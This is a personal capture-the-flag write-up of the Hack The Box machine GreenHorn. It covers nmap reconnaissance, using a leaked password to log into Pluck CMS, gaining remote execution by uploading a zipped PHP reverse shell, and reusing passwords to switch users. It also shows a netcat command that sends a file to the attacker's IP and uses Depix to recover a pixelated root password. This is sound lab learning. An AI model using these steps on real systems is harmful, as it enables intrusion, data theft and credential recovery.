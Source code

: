 
2024-08-13 16:34

Source: #CTF #htb 

Tags: [[Linux]]
### Reconnaissance 

[[nmap]] scan tells us we have 5 ports open 
```
nmap -sS -p- -n -Pn -A --min-rate=9362 $IP
```
- `sS`: This option specifies a `SYN` scan  
- `-p-`: This option tells `nmap` to scan all `65,535` ports.  
- `-n`: This option is speeds up the scan by avoiding `DNS` resolution.  
- `-Pn`: This option disables host discovery, treating all hosts as online. This is useful for scanning hosts that may be blocking `ICMP` ping requests.  
- `--min-rate=9362`: This option sets the minimum number of packets per second to be sent during the scan. This speeds up the scan but may increase the likelihood of being detected by security systems.   
- `-A`: This option enables OS detection, version detection, script scanning, and traceroute.
```
http-title: Did not follow redirect to [http://greenhorn.htb/](http://greenhorn.htb/)
```
indicates that the HTTP service running on port 80 is configured to redirect requests to `[http://greenhorn.htb](http://greenhorn.htb/)` . However `nmap` did not follow this redirect because it doesn't resolve the `greenhorn.htb` domain name

Add an entry to your `/etc/hosts` file to map the `greenhorn.htb` domain to the IP address of the target machine

The URL parameter `file` might be used to include files on the server-side. This can potentially be exploited for Local File Inclusion (LFI) if the parameter is not properly sanitized. but this doesn't work
### Enumeration

original website served at `http://greenhorn.htb` doesn't give any hints therefore we try connecting to a different port `http://greenhorn.htb:3000` here the website served has a repo containing files of the website at the original address

on searching around a little we find that we have a password file in the `data/settings` directory. we check `data` cause `robots.txt` says not to.
we also find a `login.php` file, that doesn't take a username and the password is what we found hashed in the repo before
### Pluck CMS exploit

on logging in we find the version number, we find a [[RCE]] exploit for this on `exploitdb`
the exploit says that we can get `revshell` by uploading a zip file in the install module page of the application 
download a `php` `revshell` from `pentestmonkey` and zip it using 
```shell
zip phprevshell.zip phprevshell.php
```
### Privilege Escalation 

after getting a shell we see there is a directory name junior in the home directory that we can't access thereby suggesting that there might be a user named junior.
to check the files the junior owns use [[find]]
```bash
find / -type f -user junior 2>/dev/null
```
`su junior` to login as junior use the hashed password we found before. 
> **Remember to try out previously found passwords to login** 

along with the user.txt we also have a pdf that we can't open on that machine so we need to transfer that file to our system 
#### File transfer
##### [[File transfer]] using [[py]]

on pwnbox - 
```python 
python3 -m http.server 3333
```
on local kali
```bash
wget greenhorn.htb:3333/openvas.pdf
```
##### File Transfer using [[netcat]]

on local kali
```bash
nc -lvp 1234 > 'Using OpenVAS.pdf'
```
on pwnbox
```shell
nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'
```
here the IP is your machines tun0 IP

to open the pdf file that has quotes use eg- `'OpenVAS.pdf'`
```shell
ll Using\ OpenVAS.pdf
```

the pdf contains some instructions to login as root but the password is blurred, it is blurred image of the password pasted on top of the pdf 
to 
#### Extract image form the pdf  
##### Method 1
```
pdfimages "./Using OpenVAS.pdf" greenhorn
```
##### Method 2
[Extract PDF images - quick, online, free - PDF24 Tools](https://tools.pdf24.org/en/extract-images)

to clean the blurred image use `Depix` tool [[stego]]
```
python3 depix.py \
    -p /path/to/your/input/image.png \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```
after a while we get the password of the root user

### References
https://app.hackthebox.com/machines/GreenHorn

DEPIX - [GitHub - spipm/Depix: Recovers passwords from pixelized screenshots](https://github.com/spipm/Depix)

Walkthrough -->
[GreenHorn Hack the Box Walkthrough | by Ibrahim Isiaq Bolaji | Jul, 2024 | Medium](https://medium.com/@ibrahimbolaji50.ib/greenhorn-hack-the-box-walkthrough-2bdd839c4177)

[HackTheBox - GreenHorn CTF | by Zain | Jul, 2024 | Medium](https://medium.com/@3zain21/hackthebox-greenhorn-ctf-c2bc9c744951)

